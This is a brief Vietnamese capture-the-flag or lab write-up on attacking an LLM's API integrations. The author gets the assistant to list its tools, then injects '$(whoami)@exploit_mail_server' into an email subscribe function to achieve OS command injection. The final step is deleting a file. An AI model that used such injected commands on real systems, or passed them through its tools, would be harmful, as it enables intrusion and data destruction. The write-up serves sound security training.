 ## Exploiting vulnerabilities in LLM APIs

1. Ở bài này khi hỏi LLM dùng những API nào. Nó chỉ ra 3 api:
![image](https://github.com/user-attachments/assets/3936e739-4680-45a1-97f5-384f320077f1)

2. Fuzz thử 3 chức năng này.
3. Đoán được function subscribe này có thể được thực hiện theo command: ``mail to {input}`` trên linux.
4. Chèn vào domain của mail server với ``$(whoami)@exploit_mail_server`` nhận được mail như sau.
![image](https://github.com/user-attachments/assets/1d30b53e-6747-4d02-9409-1a178d018196)

5. Suy ra command injection thành công :3
6. Thực hiện command rm file.
